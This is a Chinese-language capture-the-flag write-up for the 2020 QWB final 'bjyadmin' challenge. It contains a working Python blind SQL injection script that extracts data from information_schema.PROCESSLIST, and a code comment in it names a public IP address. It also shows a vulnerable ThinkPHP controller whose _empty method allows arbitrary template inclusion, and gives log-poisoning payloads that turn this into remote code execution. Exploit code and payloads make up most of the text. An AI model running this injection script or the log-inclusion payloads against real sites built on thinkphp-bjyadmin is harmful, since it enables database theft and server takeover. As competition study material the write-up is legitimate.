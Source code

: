 # 2020-QWB-final-bjyadmin

## 第一步sql注入

>选手使用攻击机利用靶机中的sql注入漏洞获取bjyadmin框架路径

```
# mysql> select info from PROCESSLIST;
# +------------------------------+
# | info                         |
# +------------------------------+
# | select info from PROCESSLIST |
# +------------------------------+
# 1 row in set (0.00 sec)
```

利用processlist注出字段名，[相关的介绍](https://dev.mysql.com/doc/refman/8.0/en/performance-schema-processlist-table.html)

```python
import requests
import time
ip="192.168.10.110"
#http://101.133.129.243/
def inj(pos,guess):
    # true: real-guess < 0
    # false : guess <= real
    burp0_url = "http://"+ip+"/?id=1'/(if(floor((SELECT(ord(right(left(group_concat(info),{POS}),1)))FROM(information_schema.PROCESSLIST))/{GUESS}),1,0))/'1".format(POS=pos,GUESS=guess)
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
    r=requests.get(burp0_url, headers=burp0_headers,proxies={"http":"http://127.0.0.1:8080"})

    if "Undefined variable: rows in" in r.text:
        return True
    return False
# "http://101.133.129.243:80/?id=1'/(if(floor((SELECT(ord(right(left(group_concat(schema_name),{POS}),1)))FROM(information_schema.schemata))/{GUESS}),1,0))/'1"
# database:2020qwbctf 
# table_name:
result=""
pos=len(result)+1
while True:
    min=32
    max=128
    print(result)
    while True:
        #time.sleep(1)
        
        avr = int((min+max)/2)
        print(avr)
        if not inj(pos,avr):
            if inj(pos,avr+1):
                result+=chr(avr)
                break
            else:
                min=avr
        else:
            max=avr
        if max-min == 1:
            if not inj(pos,min):
                result+=chr(max)
                
            else:
                result+=chr(min)
            break


    
    pos+=1
```



## bjyadmin

题目提供的附件和

https://github.com/baijunyao/thinkphp-bjyadmin

一摸一样

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200921120236.png)

挨个看过去发现有一个容易令人忽略的漏洞（sxgg一眼看出来）



```php
<?php
namespace Home\Controller;
use Common\Controller\HomeBaseController;
/**
 * Vue示例
 */
class VueController extends HomeBaseController{

    /**
     * 拦截空方法 自动加载html
     * @param  string $methed_name 空方法
     */
    public function _empty($methed_name){
        $this->display($methed_name);
        exit(0);
    }

    /**
     * 配合thinkphp分页示例
     */
    public function page(){
        // 获取总条数
        $count=M('Province_city_area')->count();
        // 每页多少条数据
        $limit=200;
        $page=new \Org\Nx\Page($count,$limit);
        $data=M('Province_city_area')
            ->limit($page->firstRow.','.$page->listRows)
            ->select();
        echo json_encode($data);
    }

}
```



># ThinkPHP Action中的_empty方法
>
>_empty方法即空操作，当找不到请求的方法时，默认执行该方法，利用这个机制，我们可以实现错误页面和一些URL的优化。
>
>```
>public function _empty($name)
>{
>    echo $name;
>}
>```
>
>参数name,即请求的方法名。如http://localhost/waimai/index.php/Index/sdfewsdf,不存在sdfewsdf方法时，会调用_empty方法，显示sdfewsdf.



当我们调用一个不存在的action时，它会`display ($method) ` ，这将会造成任意模板调用

我们利用`index.php?m=Home&c=Vue&a=evil_path`来调用任意模板，我们可以利用日志文件作为模板文件从而RCE



最后的payload:

```
index.php/Home.php?m=Home&c=Vue&a=Runtime/Logs/User/20_09_17.log
index.php/Home/Vue/web_page&content=<?php/**/phpinfo();
```

